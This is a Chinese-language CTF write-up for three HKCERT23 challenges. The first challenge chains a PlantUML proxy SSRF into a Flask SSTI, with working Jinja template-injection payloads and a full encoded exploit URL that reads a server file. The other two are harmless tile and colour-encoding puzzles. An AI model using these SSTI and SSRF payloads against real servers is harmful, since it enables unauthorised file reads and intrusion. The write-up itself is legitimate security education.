



<style>
    :root {
        font-family: "HarmonyOS Sans TC"
    }
</style>

# WriteUps for HKCERT23

T0093 - NuttyShell Blue

[Online Version @ GitHub](https://github.com/liyanqwq/ctf-writeups/tree/main/2023/HKCERT23)

---

### Probably Unknown's Markup Language

通過觀察 `docker-compose-yml`，我們發現，題目給出的 plamtUML 實例可以通過域名 `puml.local` 來訪問載有 flag 的 Web 服務。

閲讀 [plantUML 文檔](https://plantuml.com/server)，plantUML 可以使用内置的 proxy 功能從 URL 中解析 plantUML 代碼。

API 格式如下：`http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=<url (url encoded)>`

下面我們閲讀 `web/server.py`，根據源代碼内容，我們發現目標 Web 服務存在 Flask SSTI 漏洞，但利用 `` 阻止注入。

漏洞利用方式如下：`http://puml.local/?<payload (url encoded)>`

---

首先，我們構造以下 Payload：

```

@startuml
a:{{''.__class__.__mro__[1].__subclasses__()}}
@enduml

```

根據返回的 List，我們可以查找到 `<class '_frozen_importlib._ModuleLock'>` 處在下標為 `100` 的位置。

---

考慮到文件存儲在 `/proof.sh`，我們構造以下 Payload：

```

@startuml
a:{{''.__class__.__mro__[1].__subclasses__()[100].__init__.__globals__.__builtins__['open']('/proof.sh').read()}}
@enduml

```

經過 URL Encode，得到如下 Payload URL：

```
http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=http://puml.local/?puml=%250A%7B%2525%
2520endraw%2520%2525%7D%250A@startuml%250Aa:%7B%7B%2527%2527.__class__.__mro__%5B1%5D.__subcla
sses__()[100].__init__.__globals__.__builtins__[%27open%27](%27/proof.sh%27).read()%7D%7D%250A
@enduml%250A%7B%2525%2520raw%2520%2525%7D%250A
```

---

訪問 URL，得到 Flag。



---

### Wang123

Wang123 是一個拼圖題目。

現在我們來看一下 fake flag 的構造過程：


---

從 fake flag 的構造中，並參考[王氏磚](https://zh.wikipedia.org/zh-hk/%E7%8E%8B%E6%B0%8F%E7%A3%9A)的有關知識，我們可以發現，flag 的構造由 fake 四個塊開始，依次向下和向右填充區塊。

每個區塊的要求是：

- 上面的部分和上面區塊的下面部分相同

- 左面的部分和左面區塊的右面部分相同

- 如果沒有上面的區塊，假定上面區塊的下面部分為 `#`

- 如果沒有左面的區塊，假定左面的區塊的右面部分爲空

閲讀題面：

`fake flag is faker than real flag, so what is the real flag?`

可以推斷出 real flag 產生自 real。

---

現在我們開始拼圖。



考慮到上面部分為 `#` 的區塊的特殊性，我們將簡化一些拼圖步驟：

---



得到 flag `hkcert23{3hackkc3er}`。

---

### Tuning Keyboard 4

這個題目的附件只給了一個 html 文件。

通過觀察文件我們可知，svg 中的四個 polygon 中各有一個 `fill animate` 的值過於特殊。

三個如此精確的 `hsl()` 格式的顔色？可能蘊含著特殊信息。

將第一個顔色轉成 `hex` 格式，得到 `0x614774`，Base64 解碼結果爲 `hk`。

但將第二個顔色轉成 `hex` 格式後附加進去，照例操作，並未得到有效結果。

怎麽辦？

我們發現，如果將第二個 polygon 中的第一個顔色轉換得來的 hex code 附加進去，進行 Base64 解碼，則可以得到 `hkce`。

---

下面給出一個猜想：目標 hex code 的組合方式如下（用 `1,1` 代表第一個 polygon 的第一個顔色 `hex code`）：

`1,1 2,1 3,1 4,1 1,2 2,2 3,2 4,2 1,3 2,3 3,3 4,3`

進行組合，得到 hex code 如下：`0x6147746a5a584a304d6a4e374f5463304e7a4d314e7a4a66614746765833426e66513d3d`

進行 Base64 解碼得：`hkcert23{97473572_hao_pg}`，即爲所需 flag。

另：鑒於有反饋未能復現本 Write-Up 中的顔色轉換，給出解答如下。

`hsl()` 格式的顔色的 `h` 部分使用的是弧度制，在部分綫上轉換中可能出錯。

一種可能的解法是，將顔色寫入 css 文件，在瀏覽器中打開，使用内置工具轉換。

當然，我直接將顔色寫入了 css 文件，並使用了 VSCode 内置的顔色查看工具進行轉換。